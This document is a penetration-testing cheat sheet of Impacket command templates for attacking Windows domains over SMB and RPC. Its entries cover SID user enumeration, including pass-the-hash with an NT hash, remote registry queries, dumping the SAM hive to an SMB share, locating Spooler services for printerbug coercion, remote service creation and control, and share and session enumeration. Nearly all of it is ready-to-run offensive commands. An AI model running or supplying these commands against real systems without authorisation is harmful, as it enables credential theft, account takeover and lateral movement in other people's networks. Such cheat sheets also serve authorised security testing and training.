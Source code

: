# Impacket

% impacket, windows, smb, 445

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
#plateform/linux #target/remote #cat/RECON 

```
lookupsid.py -domain-sids <domain_fqdn>/<user>:<password>@<ip>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data.  (pth)
#plateform/linux #target/remote #cat/RECON 

```
lookupsid.py -hashes :<nt_hash> -domain-sids <domain_fqdn>/<user>@<ip>
```


## reg - query registry info remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain_fqdn>/<user>:<password>'@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```
## reg - dump sam remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain_fqdn>/<user>:<password>'@<ip>  backup -o '<smb_share_UNC>'
```

## rpcdump - list rpc endpoint
#plateform/linux #target/remote #cat/RECON 
```
rpcdump.py '<domain_fqdn>/<user>:<password>'@<ip>
```


## rpcdump - Find Spooler services (printerbug coerce)
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain_fqdn>/<user>:'<password>'@<dc_name> | grep MS-RPRN
```

## rpcdump - Find anonymous Spooler services (printerbug coerce)
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc_name> | grep -A 6 MS-RPRN
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
#plateform/linux #target/remote #cat/RECON  #cat/ATTACK/EXPLOIT  
```
services.py '<domain_fqdn>/<user>:<password>'@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
#plateform/linux #target/remote #cat/RECON 
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
#plateform/linux #target/remote #cat/RECON 
```
netview.py <domain_fqdn>/<user> -target <ip> -users <users_file>
```


